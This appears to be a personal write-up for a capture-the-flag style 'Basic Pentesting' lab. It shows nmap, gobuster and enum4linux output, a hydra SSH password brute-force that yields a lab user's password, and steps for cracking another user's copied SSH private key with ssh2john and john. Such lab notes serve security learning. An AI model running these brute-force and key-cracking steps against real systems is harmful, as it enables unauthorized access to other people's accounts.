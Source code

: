 # Basinc Pentesting

# Scanning

Nmap scan report for 10.10.72.158  
Host is up (0.49s latency).  
Not shown: 992 closed ports  
PORT      STATE    SERVICE     VERSION  
22/tcp    open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)  
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)  
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)  
80/tcp    open     http        Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Site doesn't have a title (text/html).  
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
417/tcp   filtered onmux  
445/tcp   open     netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  
8009/tcp  open     ajp13       Apache Jserv (Protocol v1.3)  
| ajp-methods:  
|_  Supported methods: GET HEAD POST OPTIONS  
8080/tcp  open     http        Apache Tomcat 9.0.7  
|_http-favicon: Apache Tomcat  
|_http-title: Apache Tomcat/9.0.7  
21571/tcp filtered unknown  
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel  

Host script results:  
|_clock-skew: mean: 1h19m59s, deviation: 2h18m35s, median: -1s  
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)  
| smb-os-discovery:  
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)  
|   Computer name: basic2  
|   NetBIOS computer name: BASIC2\x00  
|   Domain name: \x00  
|   FQDN: basic2  
|_  System time: 2020-05-16T06:26:50-04:00  
| smb-security-mode:  
|   account_used: guest  
|   authentication_level: user  
|   challenge_response: supported  
|_  message_signing: disabled (dangerous, but default)  
| smb2-security-mode:  
|   2.02:  
|_    Message signing enabled but not required  
| smb2-time:  
|   date: 2020-05-16T10:26:50  
|_  start_date: N/A  

# Gobuster Result
gobuster dir -u http://10.10.72.158/ -w /Users/scops/tools/rockyou.txt

Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
[+] Url:            http://10.10.72.158/
[+] Threads:        10
[+] Wordlist:       directory_guessing_list.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s

2020/05/16 19:42:16 Starting gobuster
/development (Status: 301)


# Samba installation in mac ( my way)
this is for enum4linx install guide.  

1. should be installationg macport

2. macport samba installation command about samba :
sudo port install bind9 gnutls readline talloc popt


3. after macport dependencies below command : 
sudo port install samba3

4. write the : /opt/local/etc/samba3/samba.conf. <br>
[Office Admin]. <br>
comment = Office Admin. <br> 
path = /Volumes/Server Data RAID/Office Admin. <br>
available = yes. <br>
guest ok = yes. <br>
create mask = 644. <br>
directory mask = 755. <br>
read only = no. <br>

# Samba Enumeration Result : 
WARNING: polenum.py is not in your path.  Check that package is installed and your PATH is sane.  
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat May 16 22:08:45 2020  

 ==========================  
|    Target Information    |  
 ==========================  
Target ........... 10.10.28.75  
RID Range ........ 500-550,1000-1050  
Username ......... ''  
Password ......... ''  
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none  
...  
S-1-22-1-1000 Unix User\kay (Local User)  
S-1-22-1-1001 Unix User\jan (Local User)  

 ============================================  
|    Getting printer info for 10.10.28.75    |  
 ============================================  
No printers returned.  


# Password Guessing : 
1. Command : hydra -l jan -P password_guessing_list.txt ssh://10.10.28.75/ <br> 

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-16 23:17:58  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is   recommended to reduce the tasks: use -t 4  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task  
[DATA] attacking ssh://10.10.28.75:22/  


[STATUS] 142.00 tries/min, 142 tries in 00:01h, 14344256 to do in 1683:36h, 16 active  
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 14344062 to do in 2134:32h, 16 active  
[STATUS] 105.14 tries/min, 736 tries in 00:07h, 14343662 to do in 2273:41h, 16 active  
[22][ssh] host: 10.10.28.75   login: jan   password: armando  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-16 23:25:25  

# Privilege Escalate 
Linpeas is privilege escalate tool
[+] Linpeas <br>
  1. id_rsa copyit  
  2. ssh2john.py crack it    
  ./ssh2john.py /Users/scops/tools/hacking_project/thm/Basic_Pentesting/kay_id_rsa > forjohn.txt


# Using the john !
***How to use "john the ripper"*** <br>
john forjohn.txt --wordlist=/Users/scops/tools/password_guessing_list.txt <br>

